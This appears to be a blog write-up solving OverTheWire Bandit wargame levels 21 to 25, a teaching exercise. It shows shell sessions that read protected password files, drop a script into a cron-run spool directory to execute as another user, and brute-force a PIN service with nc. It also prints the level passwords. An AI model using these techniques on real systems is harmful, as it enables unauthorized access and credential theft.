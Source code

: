 ## Bandit 21

_ _Very easy level, you'll need to read about cron, but for now first
paragraph of this [link ](https://help.ubuntu.com/community/CronHowto)will do:

  

"Cron is a system daemon used to execute desired tasks (in the background) at
designated times.

A crontab file is a simple text file containing a list of commands meant to be
run at specified times. It is edited using the crontab command. The commands
in the crontab file (and their run times) are checked by the cron daemon,
which executes them in the system background."  
  
First, let's see which cron job is being executed for bandit 22:  

    
    
     bandit21@melinda:~$ **cd /etc/cron.d** 
    
    
     bandit21@melinda:/etc/cron.d$ **ls**    
     behemoth4_cleanup cronjob_bandit23    leviathan5_cleanup  natas-session-toucher natas25_cleanup~ php5    semtex0-ppc vortex0    
     cron-apt      cronjob_bandit24    manpage3_resetpw_job natas-stats      natas26_cleanup  semtex0-32 semtex5   vortex20    
     **cronjob_bandit22**  cronjob_bandit24_root melinda-stats     natas25_cleanup    natas27_cleanup  semtex0-64 sysstat 
    
    
     bandit21@melinda:/etc/cron.d$ **cat cronjob_bandit2**    
     cat: cronjob_bandit2: No such file or directory 
    
    
     bandit21@melinda:/etc/cron.d$ cat cronjob_bandit22    
     * * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null    
    

  
What does **/usr/bin/cronjob_bandit22.sh** do?  
  

    
    
     bandit21@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh    
     #!/bin/bash    
     chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv    
     cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv    
    

  
First line after the sha-bang gives the temp file the following permissions:
user can write, anyone can read. So we're able to read the content of that
file.  
Second line copies the content of /etc/bandit_pass/bandit22 (containing our
password) to the temporary file. Check it's content and you'll find the
password to the next level!  
  
Password: Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI  
  

## Bandit 22

Same steps as earlier, let's see what the script /usr/bin/cronjob_bandit23.sh
does:

  

    
    
     bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh    
     #!/bin/bash    
     myname=$(whoami)    
     mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)    
     echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"    
     cat /etc/bandit_pass/$myname > /tmp/$mytarget    
    

  

So we need to get the MD5 encoding of $target (which is "I am user bandit23"),
then read the content of /tmp/MD5output:

  

    
    
     bandit22@melinda:/etc/cron.d$ md5sum <<< $(echo I am user bandit23)    
     8ca319486bfbbc3663ea0fbe81326349 -    
     bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349    
     jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n    
     bandit22@melinda:/etc/cron.d$    
    

## Bandit 23

More of the same, let's see what the script does:

  

    
    
     bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh    
     #!/bin/bash    
     myname=$(whoami)    
     cd /var/spool/$myname    
     echo "Executing and deleting all scripts in /var/spool/$myname:"    
     for i in * .*;    
     do    
       if [ "$i" != "." -a "$i" != ".." ];    
       then    
         echo "Handling $i"    
         timeout -s 9 60 "./$i"    
         rm -f "./$i"    
       fi    
     done    
     bandit23@melinda:/etc/cron.d$    
    

So it navigates to /var/spool/bandit24 directory and executes all scripts as
bandit24. Alright, so we need to make it write the content of
/etc/bandit_pass/bandit24 somewhere, maybe a temporary file? **Make sure you
give the script and the folder the correct permissions.**

    
    
     bandit23@melinda:/etc/cron.d$ mkdir /tmp/somefunnyname    
     bandit23@melinda:/etc/cron.d$ chmod 777 /tmp/somefunnyname    
     bandit23@melinda:/etc/cron.d$ cd /tmp/somefunnyname    
     bandit23@melinda:/tmp/somefunnyname$ cat > torun.sh    
     #!/bin/bash    
     cat /etc/bandit_pass/bandit24 > /tmp/somefunnyname/password    
     ^C    
     bandit23@melinda:/tmp/somefunnyname$ chmod 777 torun.sh    
     bandit23@melinda:/tmp/somefunnyname$ cp torun.sh /var/spool/bandit24/    
     bandit23@melinda:/tmp/somefunnyname$ ls -al /var/spool/bandit24/    
     total 153    
     drwxrwxrwx 2 bandit24 bandit23 151552 Oct 21 23:08 .    
     drwxr-xr-x 6 root   root    4096 May 3 2015 ..    
     bandit23@melinda:/tmp/somefunnyname$ ls    
     password torun.sh    
     bandit23@melinda:/tmp/somefunnyname$ cat password    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ    
     bandit23@melinda:/tmp/somefunnyname$    
    

Script got deleted, which means cron executed it and we got our password!  
  

## Bandit 24

Our first bash for loop! You may want to read more about it
[here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).  
  
First let's see how the daemon behaves. You'll realize it allows multiple
input, we can create a list with format "&lt;password&gt; &lt;pin&gt;" for
0000-9999 and feed it to NC. Let's create a temp directory and navigate to it:

  

    
    
     bandit24@melinda:/tmp/abatchy24$ **for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >>list.txt; done  **  
     bandit24@melinda:/tmp/abatchy24$ **head list.txt**    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9    
     bandit24@melinda:/tmp/abatchy24$ **tail list.txt**    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998    
     UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999    
     bandit24@melinda:/tmp/abatchy24$ **nc -nv 127.0.0.1 30002 < list.txt | grep -v Wrong**    
     Connection to 127.0.0.1 30002 port [tcp/*] succeeded!    
     I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.    
     Correct!    
     The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG    
     Exiting.    
     bandit24@melinda:/tmp/abatchy24$    
    

Done.  

## Bandit 25

Just another SSH key, but you may want to look into /etc/passwd file...

  

## Bandit 26 (?)

